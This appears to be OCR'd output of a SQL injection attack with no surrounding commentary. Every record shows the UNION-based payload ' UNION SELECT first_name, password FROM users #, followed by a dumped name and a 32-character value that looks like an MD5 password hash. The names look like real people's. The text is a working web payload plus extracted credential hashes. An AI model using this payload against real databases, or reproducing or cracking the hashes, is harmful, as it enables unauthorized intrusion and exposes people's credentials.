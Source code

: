 ```
First name: MELLET
Surname: 362c08f6b2f82cdbc54ffaf8fec22723

ID: ' UNION SELECT first_name, password FROM users #
First name: MRAIHY
Surname: a0154989c697ec9969706725aea52d1c

ID: ' UNION SELECT first_name, password FROM users #
First name: SAID MEDJAHED
Surname: c85d9d10db75a4a397e6325872efa55e

ID: ' UNION SELECT first_name, password FROM users #
First name: SIMEON
Surname: 1ad657bee9775c2e56cb187460bd4eb2

ID: ' UNION SELECT first_name, password FROM users #
First name: ZEROUAL
Surname: 60037319c191f3309cededa7adf243c3

ID: ' UNION SELECT first_name, password FROM users #
First name: HENRY
Surname: 6db94f074138a64e94f2ce0a2da24ff4

ID: ' UNION SELECT first_name, password FROM users #
First name: BERNIERE
Surname: d2fbaddcf91237982462e1a9a6488ab5

ID: ' UNION SELECT first_name, password FROM users #
First name: BLOT
Surname: c86bae7311bdb854d39d819477f172a1

ID: ' UNION SELECT first_name, password FROM users #
First name: BREANT
Surname: 86a78e8fb164990c1c755a6219cadda4

ID: ' UNION SELECT first_name, password FROM users #
First name: BRODIER
Surname: 362c08f6b2f82cdbc54ffaf8fec22723

ID: ' UNION SELECT first_name, password FROM users #
First name: CAPET
Surname: 9517d8e804146d4cf9369508f8590d12

ID: ' UNION SELECT first_name, password FROM users #
First name: COULON
Surname: 73a896f945329aa6bcc032196da98605

ID: ' UNION SELECT first_name, password FROM users #
First name: CROCHEMORE
Surname: d3a8fd6da30995017b9007c91525a4cd

ID: ' UNION SELECT first_name, password FROM users #
First name: DECAMPS
Surname: 8f9b87a25a326121d7bedc91df22f262

ID: ' UNION SELECT first_name, password FROM users #
First name: DESPORTES
Surname: 8f9b87a25a326121d7bedc91df22f262

ID: ' UNION SELECT first_name, password FROM users #
First name: FLEURY
Surname: 31ab78a60e3fc6fb7a38bbaf173e0053

```